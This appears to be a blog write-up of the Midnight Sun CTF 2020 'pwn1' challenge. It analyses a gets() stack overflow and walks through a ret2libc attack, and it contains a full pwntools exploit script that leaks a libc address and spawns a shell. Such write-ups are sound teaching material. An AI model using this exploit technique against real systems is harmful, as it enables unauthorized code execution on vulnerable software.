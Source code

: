 ```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn1 
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, 
for GNU/Linux 3.2.0, BuildID[sha1]=c6454068347641785d5aff4a7402fec917f9485d, stripped

Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Decompiling challenge in IDA very quickly reveals vulnerability. Function `gets` is used to read data from user directly the buffer `v4` which obviously leads to buffer overflow vulnerability.

![code decompiled][decompiled]

Pushing `rbp` and subtracting from the stack 0x40 for local variables.

![code disassembly][disassembly]

In order to overwrite the return address it is required to send `0x40 (64) + 0x8 (rbp) + "AAAAAAAA"`. This will result in overwriting RIP with `"AAAAAAAA"`.

Our strategy for exploiting binary will be following:
1. Leak libc address by using `puts` and return back to main to send another payload.
2. Send payload to perform ret2libc attack.

Lets leak libc printf address and do the calculations.

{% highlight python %}
pop_rdi = 0x400783 # : pop rdi ; ret
main = 0x400698

# leak libc
payload = (
    b"A" * 72 +
    p64(pop_rdi) +
    p64(exe.got["printf"]) +
    p64(exe.plt["puts"]) +
    p64(main)

)
io.sendline(payload)

leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.printf

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)
{% endhighlight %}

Sending payload to perform ret2libc attack.

{% highlight python %}
payload = (
    b"A" * 72 +
    p64(ret) +
    p64(pop_rdi) +
    p64(next(libc.search(b"/bin/sh"))) +
    p64(libc.sym.system)
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

This results in getting interactive shell.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./pwn1')
libc = ELF("./libc.so")

host = args.HOST or 'pwn1-01.play.midnightsunctf.se'
port = int(args.PORT or 10001)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

io = start(env={"LD_PRELOAD": "./libc.so"})
io.recvuntil("buffer: ")

pop_rdi = 0x400783 # : pop rdi ; ret
ret = 0x400784 # : ret
main = 0x400698

# leak libc
payload = (
    b"A" * 72 +
    p64(pop_rdi) +
    p64(exe.got["printf"]) +
    p64(exe.plt["puts"]) +
    p64(main)

)
io.sendline(payload)
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
libc.address = leak - libc.sym.printf

log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)

io.recvuntil("buffer: ")
payload = (
    b"A" * 72 +
    p64(ret) +
    p64(pop_rdi) +
    p64(next(libc.search(b"/bin/sh"))) +
    p64(libc.sym.system)
)
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn1
[decompiled]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn1/decompiled.png
[disassembly]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn1/disassembly.png

